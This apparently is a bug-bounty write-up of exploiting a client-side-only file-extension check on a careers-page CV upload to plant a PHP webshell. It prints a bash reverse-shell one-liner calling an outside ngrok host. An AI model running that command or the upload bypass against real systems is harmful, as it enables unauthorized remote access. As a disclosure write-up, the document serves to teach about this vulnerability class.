

Obtain Remote Code Execution due to Unrestricted File Upload.
Introduction
Remote Code Execution (RCE) is a critical vulnerability that allows unauthorized individuals to access and modify a computer or server from a remote location. This capability enables attackers to run arbitrary malicious software, also known as malware, on the targeted system.
Identifying the Target
During the reconnaissance phase, I utilized Google dorks to find a target that had a responsible disclosure program. For the purpose of this article, let's refer to the target website as abc.com. Further investigation revealed that the target company owned seven subdomains, all integrated with the parent domain abc.com and offering various functionalities.
Exploiting PHP-Based Website
Since the target website was predominantly built using PHP, I focused on finding a vulnerability that would allow me to upload a PHP file and gain a reverse shell. Interestingly, I discovered that the website had a career page where applicants could upload their resumes in PDF format.
Directory Brute-Forcing
To begin, I conducted a directory brute-forcing operation using the dirsearch tool. This enabled me to identify directories on the website and gain a better understanding of its structure.
Discovering Uploaded Files
During my investigation, I came across an "uploads" folder that contained all the documents uploaded by individuals applying for jobs through the career page.

Exploiting the CV Upload Functionality
I proceeded to the career page URL (https://www.abc.com/careers.php) to examine the CV upload functionality. However, I found that the application only performed file extension validation at the front end, leaving room for potential exploitation.
Uploading the PHP Webshell
Taking advantage of the lax file extension validation, I downloaded a PHP webshell and successfully uploaded it.
Activating the Webshell
To trigger the PHP webshell, I accessed the location where the shell was uploaded.
Expanding Control with Reverse Shell
At this point, the webshell was functioning correctly. To establish a reverse shell, I either uploaded a reverse shell or used the following command in the web shell console to access the system via port forwarding using ngrok services.
PHP Webshell Repository
For reference, you can find the PHP webshell I used in this demonstration on my GitHub repository: GitHub Repo
Obtaining a Reverse Shell
To acquire a reverse shell, the following steps were performed:
- Enabled port forwarding.
- Listened to the forwarded port using Netcat.
With the completion of port forwarding setup, I executed the following command in the webshell input field:
bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1

As a result, a successful reverse shell connection was established.
Conclusion
In this article, I demonstrated how an unrestricted file upload vulnerability on a PHP-based website could lead to Remote Code Execution (RCE). By exploiting the website's lax file extension validation, I successfully uploaded a PHP webshell and obtained a reverse shell, ultimately gaining unauthorized access to the system. Thank you for reading.
For more updates and insights, follow me on Twitter: @thevillagehacker.